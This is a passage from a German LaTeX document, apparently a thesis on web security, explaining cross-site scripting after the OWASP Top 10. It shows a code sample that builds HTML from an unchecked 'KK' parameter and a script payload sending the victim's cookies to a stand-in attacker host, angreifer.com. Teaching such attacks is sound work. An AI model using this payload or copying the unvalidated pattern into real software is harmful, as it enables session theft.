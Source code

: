 \begin{itemize}
	\item persistent,
	\item reflektiert und
	\item DOM-basiert.
\end{itemize}

Die XSS-Vulnerabilitäten können sehr einfach durch die Tests oder Code-Reviews erkannt werden\cite{owasp13top10}.

Angreifer können durch die Ausführung von Skripten im Browser des Opfers die Session übernehmen, Webseiten verändern, andere Inhalte einfügen, Benutzer umleiten oder den Browser des Benutzers mit Malware infizieren\cite{owasp13top10}.\\

\textbf{Mögliche Angriffsszenarien:}\\
\\
\textbf{\textit{Szenario 1:}}\\

Um folgenden HTML-Code zu generieren übernimmt die Anwendung nicht vertrauenswürdige Daten, welche weder auf Gültigkeit geprüft werden\cite{owasp13top10}:\\

\begin{LaTeXCode}[caption={XXS-Beispiel 1},captionpos=b, label=LaTeXCode:xxs1][numbers=none]
(String) seite += "<input name='kreditkarte' type='TEXT'
wert='" + anfrage.gibParameter("KK") + "'>";
\end{LaTeXCode}

Der Parameter \texttt{KK} wird im Browser durch den Hacker geändert werden:\\

\begin{LaTeXCode}[caption={XXS-Beispiel 2},captionpos=b, label=LaTeXCode:xxs2][numbers=none]
<script>dokumente.ort=
http://www.angreifer.com/abc-bin/cookies.abc?
var='+dokumente.cookies</script>
\end{LaTeXCode}

Somit kann die Session-ID des Opfers an die Seite des Hackers geschickt, somit kann der Hacker die aktuelle Session des Users einfach übernehmen\cite{owasp13top10}.\\

\subsubsection{Unsichere Deserialisierung}

